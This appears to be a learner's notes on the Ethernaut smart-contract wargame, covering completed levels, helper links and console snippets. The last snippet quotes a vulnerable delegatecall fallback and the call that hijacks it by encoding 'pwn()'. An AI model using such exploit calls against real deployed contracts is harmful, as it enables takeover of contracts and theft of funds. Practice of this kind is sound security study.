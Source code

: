 ## Website
https://ethernaut.openzeppelin.com/

## Completed
0. Hello Ethernaut
1. Fallback
2. Fallout
3. CoinFlip
4. Telephone ✔
5. Token ✔
6. Delegation ✔

## Other useful sites:

https://www.pauric.blog/How-To-Hack-Ethereum-Contracts-The-Easy-Way/

https://trufflesuite.com/docs/truffle/getting-started/interacting-with-your-contracts

## Other Notes:

player is you
get the balance using
```
getBalance(player)
```

interact with the `contract`
```
(await contract.contributions(player)).toString();
await contract.contribute.sendTransaction({value: toWei(.0009)})
```
contract is a truffle object. can do fallback methods using
```
contract.sendTransction({value: 50000000});
```


### Delegate call with encoding of function signature
```
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
  
  # Called with
  await contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature("pwn()")})
  
```
